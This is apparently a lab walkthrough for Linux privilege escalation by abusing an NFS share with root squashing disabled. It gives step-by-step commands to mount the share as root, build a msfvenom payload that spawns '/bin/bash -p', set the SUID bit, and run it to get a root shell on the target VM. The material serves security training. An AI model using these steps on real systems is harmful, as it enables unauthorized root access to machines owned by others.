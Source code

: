 
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

`mkdir /tmp/nfs   mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x64/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`